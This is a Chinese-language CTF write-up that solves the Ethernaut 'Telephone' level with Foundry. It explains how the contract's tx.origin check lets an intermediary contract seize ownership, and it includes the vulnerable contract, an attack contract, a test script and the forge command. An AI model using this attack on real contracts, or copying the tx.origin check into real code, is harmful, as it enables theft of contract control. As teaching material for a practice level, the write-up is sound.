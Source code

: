 # Foundry 通关 Ethernaut（3）— Telephone

参加残酷共学打卡活动，记录一下这段时间的收获

## 目标

获取合约控制权

## 漏洞合约

先来看漏洞合约本身，简单概括其核心功能：

1. **constructor：** 设置合约的 owner 为合约部署者
2. **changeOwner** : 当函数当前调用者（msg.sender）与原始调用者 (tx.origin) 不同时，函数更新 owner 值为函数输入参数

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) {
            owner = _owner;
        }
    }
}
```

## 思路

在合约中，满足条件后，changeOwner 函数能更新合约的 owner 值，因此，我们想办法满足这个**函数当前调用者与原始调用者不同**的的条件

evm 中，只有 EOA 能主动发起交易，所以，所有合约的 tx.origin 都是 EOA 账户，而对于 ，msg.sender 来说，如果是通过合约A来调用合约B的函数，那么 对于这个函数来说，msg.sender 将会是合约A 的地址

![image-20240905165847851](../pict/image-20240905165847851.png)

因此，这里，我们可以在另一个合约中去调用 changeOwner 就能实现对与这个函数来说，函数当前调用者（msg.sender）与原始调用者 (tx.origin) 不同

## foundry 复现

### 1. 攻击合约

```solidity
contract Attack {
    Telephone public telephone;

    constructor(address _address) {
        telephone = Telephone(_address);
    }

    function attack() public returns (address) {
        // 使用合约变量调用另一个合约的函数
        telephone.changeOwner(tx.origin);
        return tx.origin;
    }
}
```

### 2. 测试脚本

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import {Test, console} from "forge-std/Test.sol";
import {Telephone,Attack} from "../src/Telephone.sol";

contract TelephoneTest is Test {
    Telephone public telephone;
    Attack public attackContract;

    function setUp() external {
        telephone = new Telephone();
        attackContract = new Attack(address(telephone));
    }

    function test_attack() public {
        console.log("before",telephone.owner());
        attackContract.attack();
        console.log("after",telephone.owner());
    }
}
```

这里很简单，逻辑写在攻击合约中，调用函数即可

### 3. 测试

终端输入

```solidity
forge test --match-path test/Telephone.t.sol -vvvv
```

![image-20240905165937381](../pict/image-20240905165937381.png)

打印可以看到，合约的 owner 改变